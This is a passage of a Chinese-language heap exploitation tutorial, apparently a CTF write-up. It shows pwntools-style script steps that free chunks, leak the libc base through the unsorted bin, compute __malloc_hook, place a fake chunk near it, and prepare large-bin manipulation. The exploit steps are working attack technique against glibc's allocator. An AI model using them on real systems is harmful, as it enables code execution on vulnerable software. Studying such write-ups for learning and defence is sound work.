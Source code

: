 ```plain
delete(1)
```

[![](assets/1701612337-20e7a24c39eb53a86680cee89ccee6b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172929-f04adb06-1d71-1.png)

```plain
delete(3)
delete(5)
```

可以看到禁掉 fast bins 后，0x30 大小的 chunk 也进入 unsorted bin 中了  
[![](assets/1701612337-bfe8abace15901e10d226cfa1124b23b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172944-f92742d2-1d71-1.png)

```plain
show(1)
libc_base=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c4b78
leak("libc_base ",libc_base)
malloc_hook=libc_base+libc.sym['__malloc_hook']
leak('malloc_hook',malloc_hook)
fake_chunk = malloc_hook - 0x50
```

[![](assets/1701612337-b322b721794a9ee07cec88181f25bb1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708172959-02372202-1d72-1.png)

```plain
add(0x20)
```

在 fast bins 中找不到合适大小的 chunk，于是遍历 unsorted bin，把 unsorted bin 中的 chunk 放到对应大小的 bin 中（这里 unsored bin 中虽然有对应大小的 chunk，但是正常流程是再 fast bins 中找到的，所以这里仍然需要遍历）  
[![](assets/1701612337-6ef09fa7fe3450b2b65f9f9fc15aab5f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173020-0ef16fac-1d72-1.png)

```plain
add(0x410)  #3
delete(3)
```

申请后再次释放就链入了 unsorted bin 中，同时也满足了 unsorted bin 中的 chunk 比 large bin 中的大  
[![](assets/1701612337-96324ceff774d08b42d148d0ebdec73a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230708173038-1960495e-1d72-1.png)
